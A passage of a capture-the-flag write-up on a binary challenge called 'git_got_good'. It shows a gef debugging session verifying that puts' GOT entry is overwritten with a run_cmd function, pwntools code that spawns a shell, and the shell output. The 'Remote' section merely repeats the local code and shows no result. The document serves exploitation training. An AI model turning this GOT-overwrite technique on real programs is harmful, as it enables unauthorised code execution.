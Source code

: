 ```
```

Added a breakpoint right before the call to `puts` to see if it's overwritten correctly:
```
gef➤  $ break *0x40080e
Breakpoint 2 at 0x40080e

Breakpoint 2, 0x000000000040080e in main ()
 code:x86:64 ────
     0x400803 <main+152>       mov    QWORD PTR [rcx+0x8], rdx
     0x400807 <main+156>       lea    rax, [rbp-0x20]
     0x40080b <main+160>       mov    rdi, rax
●→   0x40080e <main+163>       call   0x4005b0 <puts@plt>
   ↳    0x4005b0 <puts@plt+0>     jmp    QWORD PTR [rip+0x200a62]    # 0x601018 <puts@got.plt>
gef➤  $ x/2x 0x00601018
0x601018 <puts@got.plt>:    0x0040074b    0x00000000
```
We can see the address of `run_cmd` stored there, yay!

YAY I WIN!
```
gef➤  $ c
Continuing.
[Detaching after vfork from child process 440715]
$ whoami
kali
$ pwd
/home/kali/Desktop/5-Week
$  zsh: suspended (signal)  python3 GitGOTGood_Pwn.py
```

### Local:
###### Code:
```python
def localShell():
	p = process("./git_got_good")
	p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Results:
```
└─$ python3 GitGOTGood_Pwn.py
[+] Starting local process './git_got_good': pid 443187
[*] Switching to interactive mode
 Ok, I'm writing /bin/sh to my buffer...
$ whoami
kali
$ pwd
/home/kali/Desktop/5-Week
```
### Remote:
###### Code:
```python
def localShell():
	p = process("./git_got_good")
	p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Results:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 GitGOTGood_Pwn.py
```
